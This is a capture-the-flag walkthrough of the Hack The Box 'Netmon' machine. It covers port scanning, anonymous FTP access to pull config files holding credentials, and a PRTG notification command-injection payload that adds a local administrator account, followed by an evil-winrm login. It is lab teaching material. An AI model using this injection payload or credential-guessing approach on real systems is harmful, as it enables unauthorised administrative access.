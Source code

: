 # HTB - Netmon

#### Ip: 10.10.10.152
#### Name: Netmon
#### Rating: Easy

----------------------------------------------------------------------

![Netmon.png](../assets/netmon_assets/Netmon.png)

### Enumeration

I'll kick off enumerating this box with an Nmap scan covering all TCP ports. To speed this along I'll also user the `--min-rate 10000` flag:

```text
┌──(ryan㉿kali)-[~/HTB/Netmon]
└─$ sudo nmap -p-  --min-rate 10000 10.10.10.152
Starting Nmap 7.93 ( https://nmap.org ) at 2023-08-09 13:15 CDT
Warning: 10.10.10.152 giving up on port because retransmission cap hit (10).
Nmap scan report for 10.10.10.152
Host is up (0.071s latency).
Not shown: 65491 closed tcp ports (reset), 31 filtered tcp ports (no-response)
PORT      STATE SERVICE
21/tcp    open  ftp
80/tcp    open  http
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
445/tcp   open  microsoft-ds
5985/tcp  open  wsman
47001/tcp open  winrm
49664/tcp open  unknown
49665/tcp open  unknown
49666/tcp open  unknown
49667/tcp open  unknown
49668/tcp open  unknown
49669/tcp open  unknown

Nmap done: 1 IP address (1 host up) scanned in 14.96 seconds
```

Lets also use the `-sC` and `-sV` flags to use Nmap basic scripts and to enumerate versions:

```text
┌──(ryan㉿kali)-[~/HTB/Netmon]
└─$ sudo nmap -sC -sV -T4 10.10.10.152 -p 21,80,135,139,445,5985,47001
Starting Nmap 7.93 ( https://nmap.org ) at 2023-08-09 13:16 CDT
Nmap scan report for 10.10.10.152
Host is up (0.066s latency).

PORT      STATE SERVICE      VERSION
21/tcp    open  ftp          Microsoft ftpd
| ftp-syst: 
|_  SYST: Windows_NT
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| 02-03-19  12:18AM                 1024 .rnd
| 02-25-19  10:15PM       <DIR>          inetpub
| 07-16-16  09:18AM       <DIR>          PerfLogs
| 02-25-19  10:56PM       <DIR>          Program Files
| 02-03-19  12:28AM       <DIR>          Program Files (x86)
| 02-03-19  08:08AM       <DIR>          Users
|_02-25-19  11:49PM       <DIR>          Windows
80/tcp    open  http         Indy httpd 18.1.37.13946 (Paessler PRTG bandwidth monitor)
|_http-trane-info: Problem with XML parsing of /evox/about
| http-title: Welcome | PRTG Network Monitor (NETMON)
|_Requested resource was /index.htm
|_http-server-header: PRTG/18.1.37.13946
135/tcp   open  msrpc        Microsoft Windows RPC
139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds Microsoft Windows Server 2008 R2 - 2012 microsoft-ds
5985/tcp  open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
47001/tcp open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-time: 
|   date: 2023-08-09T18:17:06
|_  start_date: 2023-08-09T18:14:16
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   311: 
|_    Message signing enabled but not required

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 20.65 seconds
```

Cool, looks like FTP has anonymous access enabled and it contains what appears to be the `C:\` drive? Always a winning combo.

Lets check that out first:

```text
┌──(ryan㉿kali)-[~/HTB/Netmon]
└─$ ftp 10.10.10.152
Connected to 10.10.10.152.
220 Microsoft FTP Service
Name (10.10.10.152:ryan): anonymous
331 Anonymous access allowed, send identity (e-mail name) as password.
Password: 
230 User logged in.
Remote system type is Windows_NT.
ftp> ls
229 Entering Extended Passive Mode (|||49866|)
150 Opening ASCII mode data connection.
02-03-19  12:18AM                 1024 .rnd
02-25-19  10:15PM       <DIR>          inetpub
07-16-16  09:18AM       <DIR>          PerfLogs
02-25-19  10:56PM       <DIR>          Program Files
02-03-19  12:28AM       <DIR>          Program Files (x86)
02-03-19  08:08AM       <DIR>          Users
02-25-19  11:49PM       <DIR>          Windows
226 Transfer complete.
ftp> cd Users
250 CWD command successful.
ftp> ls
229 Entering Extended Passive Mode (|||49867|)
150 Opening ASCII mode data connection.
02-25-19  11:44PM       <DIR>          Administrator
02-03-19  12:35AM       <DIR>          Public
226 Transfer complete.
ftp> cd Public
250 CWD command successful.
ftp> ls
229 Entering Extended Passive Mode (|||49868|)
125 Data connection already open; Transfer starting.
02-03-19  08:05AM       <DIR>          Documents
07-16-16  09:18AM       <DIR>          Downloads
07-16-16  09:18AM       <DIR>          Music
07-16-16  09:18AM       <DIR>          Pictures
08-09-23  02:14PM                   34 user.txt
07-16-16  09:18AM       <DIR>          Videos
226 Transfer complete.
ftp> get user.txt
local: user.txt remote: user.txt
229 Entering Extended Passive Mode (|||49871|)
150 Opening ASCII mode data connection.
100% |********************************************************************************|    34        0.48 KiB/s    00:00 ETA
226 Transfer complete.
34 bytes received in 00:00 (0.48 KiB/s)
```

Wow, we were able to grab the user.txt flag:

![user_flag.png](../assets/netmon_assets/user_flag.png)

Browsing around a bit more we find some interesting configuration files for the PRTG Network Monitor. Lets use the `get` command to bring these back locally for inspection.

![config.png](../assets/netmon_assets/config.png)

Checking out the PRTG Configuration.old.bak file, we find some credentials:

![creds.png](../assets/netmon_assets/creds.png)

Navigating to the website on port 80 we find a login for PRTG Network Monitor. Lets try the credentials here:

![fail.png](../assets/netmon_assets/fail.png)

Hmm, these aren't working here. I did notice that the password has the year 2018 in it. Maybe the password we found was old and the admin got lazy and just changed the password up a year? Lets try PrTg@dmin2019

Nice, that worked!

![in.png](../assets/netmon_assets/in.png)

This version of PRTG is vulnerable to command injection. We can exploit this by heading over to the Notifications section in Account Settings and selecting "Add New Notification."

From there we can scroll down to the Execute Program feature and enable it. We can select the .ps1 script and then add in the Parameter field:

```text
test.txt;net user howdy Password123! /add;net localgroup administrators howdy /add
```

I can now hit Save and make sure my new notification is active:

![active.png](../assets/netmon_assets/active.png)

Once this is done we can click on the bell icon to test the notification (add our user).

Once completed lets use CrackMapExec to make sure our user has been added:

![cme.png](../assets/netmon_assets/cme.png)

Cool, we can now log on to the box to grab the last flag:

```text
┌──(ryan㉿kali)-[~/HTB/Netmon]
└─$ evil-winrm -i 10.10.10.152 -u howdy -p Password123!
```

![root_flag.png](../assets/netmon_assets/root_flag.png)

Thanks for following along!

-Ryan

----------------------------------------------------------------------------


